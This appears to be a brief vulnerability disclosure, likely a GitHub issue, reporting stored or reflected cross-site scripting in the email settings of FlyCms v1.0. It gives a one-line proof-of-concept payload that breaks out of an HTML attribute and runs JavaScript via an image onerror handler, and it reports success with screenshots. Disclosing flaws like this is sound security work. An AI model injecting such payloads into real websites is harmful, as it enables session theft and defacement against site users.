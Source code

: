 target:https://github.com/sunkaifei/FlyCms
version: v1.0

There is xss in the email settings of the website settings section

![1](https://github.com/cccbbbttt/cms/assets/62176074/549c2da1-1f8f-4d45-8cca-06bba9a2670a)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/cccbbbttt/cms/assets/62176074/08ad8aa2-da9c-4962-8779-a32044cd15cd)

